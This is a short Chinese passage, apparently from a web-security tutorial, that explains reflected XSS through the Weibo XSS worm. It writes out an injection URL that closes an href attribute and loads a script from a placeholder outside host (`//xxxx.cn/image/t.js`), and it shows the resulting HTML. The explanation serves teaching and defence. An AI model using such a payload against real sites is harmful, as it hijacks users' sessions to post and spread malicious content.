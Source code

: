 * 攻击者发现 `http://weibo.com/pub/star/g/xyyyd` 这个 URL 的内容未经过滤直接输出到 HTML 中。

* 于是攻击者构建出一个 URL，然后诱导用户去点击：
`http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>`

* 用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

``` html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```

* 浏览器接收到响应后就会加载执行恶意脚本 `//xxxx.cn/image/t.js`，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，不断放大攻击范围。这种窃用受害者身份发布恶意内容，层层放大攻击范围的方式，被称为"`XSS 蠕虫`"

> 微信自有机制过滤常见的攻击

> 参考：[美团技术团队](https://mp.weixin.qq.com/s/kWxnYcCTLAQp5CGFrw30mQ) | [Unleashing an Ultimate XSS Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) | [【前端安全】JavaScript防XSS攻击](https://www.cnblogs.com/caizhenbo/p/6836390.html)

